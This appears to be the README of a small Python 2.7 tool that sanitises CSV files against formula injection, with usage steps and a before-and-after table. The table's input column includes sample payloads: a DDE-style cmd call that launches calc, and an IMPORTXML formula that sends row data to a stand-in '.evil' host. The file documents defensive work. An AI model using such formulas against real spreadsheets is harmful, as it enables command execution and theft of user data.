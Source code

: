 # Sanitize CSV Script README
## Operating environment python2.7
### Usage method
```
git clone https://github.com/zhizhi10/sanitize_csv.git
cd sanitize_csv
chmod +x sanitize_csv.py
./sanitize_csv.py your_csv_file.csv
```
The generated filename is sanitized_your_csv_file.csv

### Comparison Before and After Cleaning

| Data Before Cleaning                                                                                                         | Data After Cleaning                                                                                                                   |
|------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------|
| UserId,BillToDate,ProjectName,Description,DurationMinutes                                                                    | "UserId","BillToDate","ProjectName","Description","DurationMinutes"                                                                   |
| "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                    | "1","2017-07-25","Test Project","Flipped the jibbet","60"                                                                             |
| 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240                                                                    | "2","2017-07-25","Important Client","Bop, dop, and giglip"," 240"                                                                     |
| 2,2017-07-25,Important Client,"=2+5", 240                                                                                    | "2","2017-07-25","Important Client","'=2+5"," 240"                                                                                    |
| 2,2017-07-25,Important Client,"=2+5+cmd\| ' /C calc'!A0", 240                                                                | "2","2017-07-25","Important Client","'=2+5+\|' /C calc'!A0"," 240"                                                                    |
| 2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")",240 | "2","2017-07-25","Important Client","'=IMPORTXML(CONCAT(""http://some-server-with-log.evil?v="", CONCATENATE(A2:E2)), ""//a"")","240" |
| =1+2";=1+2                                                                                                                   | "'=1+2"";=1+2"                                                                                                                        |

### warning

“Due to the program’s inability to determine whether commas outside of quotation marks are separators, the cleaning result of `=1+2'" ;,=1+2` is `'=1+2'"" ;","'=1+2"`, not `'=1+2'"" ;,=1+2”`.